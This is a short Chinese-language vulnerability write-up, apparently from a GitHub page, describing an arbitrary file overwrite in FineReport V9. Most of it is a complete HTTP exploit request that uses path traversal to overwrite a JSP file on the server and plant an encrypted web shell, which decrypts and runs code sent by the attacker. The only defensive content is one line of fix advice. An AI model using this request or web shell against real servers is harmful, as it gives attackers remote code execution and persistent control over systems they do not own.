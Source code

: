 ### 描述
此漏洞是任意文件覆盖，上传JSP马，需要找已存在的 jsp 文件进行覆盖Tomcat 启动帆软后默认存在的JSP文件
### 影响版本
FineReportV9
### 漏洞详情
版本：/tomcat-7.0.96/webapps/ROOT/index.jsp
覆盖 Tomcat 自带 ROOT 目录下的 index.jsp:




```
POST /WebReport/ReportServer?
op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp HTTP/1.1
Host: 192.168.169.138:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/81.0.4044.92 Safari/537.36
Connection: close
Accept-Au: 0c42b2f264071be0507acea1876c74
Content-Type: text/xml;charset=UTF-8
Content-Length: 675
{"__CONTENT__":"<%@pageimport=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!classU extends
ClassLoader{U(ClassLoader c){super(c);}public Classg(byte []b){return
super.defineClass(b,0,b.length);}}%><%if(request.getParameter(\"pass\")!=null){String
k=(\"\"+UUID.randomUUID()).replace(\"-
\",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher
c=Cipher.getInstance(\"AES\");c.init(2,new
SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new
U(this.getClass().getClassLoader()).g(c.doFinal(new
sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInsta
nce().equals(pageContext);%>","__CHARSET__":"UTF-8"}
```

### 修复建议
排查是否使用帆软系统，并同步在AF自定义禁止访问webroot/ReportServer路径。
